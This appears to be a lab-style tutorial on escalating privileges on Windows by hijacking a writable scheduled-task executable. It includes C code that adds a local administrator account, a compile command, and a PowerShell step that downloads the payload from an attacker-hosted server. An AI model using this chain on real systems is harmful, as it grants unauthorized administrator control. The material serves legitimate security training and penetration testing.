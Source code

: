 ## Scheduled Tasks

### Overview
Windows Task Scheduler automates tasks such as updates, cleanup activities, or custom scripts. Each task contains **triggers** (conditions to execute) and **actions** (programs or scripts to run). If a scheduled task:
1. Runs as a privileged user (e.g., `SYSTEM` or `Administrator`), and
2. The specified action points to a writable executable or script,

then it can be abused for **privilege escalation**.

This tutorial will demonstrate how to identify and exploit misconfigured scheduled tasks.

---

### Step 1: Enumerate Scheduled Tasks
To identify tasks that may lead to privilege escalation, run **WinRecon.ps1**:

1. **Option 2**: Run Custom Recon - (Select which functions to enable).
2. **Option 17**: Enumerate scheduled tasks and check for writable executables.

#### Example Output:
![image](https://github.com/user-attachments/assets/592ec7ce-fd02-4831-ac20-9f0c600b4bab)


In this example, the scheduled task **\Microsoft\CacheCleanup**:
- Runs as `daveadmin` (a privileged user).
- Executes `BackendCacheCleanup.exe`, located in a writable directory: `C:\Users\steve\Pictures`.
- Runs frequently, as indicated by the **Next Run Time**.

---

### Step 2: Verify Permissions on the Executable
Confirm that you have **Full Control** or **Write** permissions on the executable file specified in the task action:

```powershell
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

**Output Example**:
```plaintext
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(F)
                                                  BUILTIN\Administrators:(F)
                                                  CLIENTWK220\steve:(F)
```

The `(F)` indicates **Full Control**, meaning we can replace the executable.

---

### Step 3: Create a Malicious Executable
The goal is to replace the executable file with a malicious version that creates a local administrator user.

#### Malicious Executable Code
We will use C code to add a user and place them in the Administrators group:

```c
#include <stdlib.h>

int main() {
    system("net user taskmgrsvc Password123! /add");
    system("net localgroup administrators taskmgrsvc /add");
    return 0;
}
```

#### Compile the Executable
On your attacker machine, compile the C code:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

---

### Step 4: Replace the Scheduled Task Executable
Transfer the malicious executable to the target machine and replace the original task file:

1. Host the file using a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. On the target machine, download the malicious file:
   ```powershell
   iwr -Uri http://<attacker_ip>/adduser.exe -OutFile BackendCacheCleanup.exe
   ```
3. Backup the original executable and replace it:
   ```powershell
   move C:\Users\steve\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
   move .\BackendCacheCleanup.exe C:\Users\steve\Pictures\
   ```
---

### Step 5: Wait for the Task to Execute
The scheduled task will execute automatically based on its trigger. Since this task runs every minute, wait for a short time, then verify that the malicious executable has been executed.

---

### Step 6: Verify Exploitation
Check if the user `taskmgrsvc` has been created and added to the local Administrators group:

1. List all user accounts:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output Example**:
```plaintext
User accounts for \CLIENTWK220
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the user `taskmgrsvc` was successfully added to the Administrators group.

---

### Step 7: Cleanup
Restore the original executable and clean up any traces of the exploit:

1. Delete the malicious executable:
   ```powershell
   del C:\Users\steve\Pictures\BackendCacheCleanup.exe
   ```
2. Restore the original file:
   ```powershell
   move BackendCacheCleanup.exe.bak C:\Users\steve\Pictures\BackendCacheCleanup.exe
   ```
3. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### References
- [HackTricks - Scheduled Tasks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/scheduled-tasks)

---

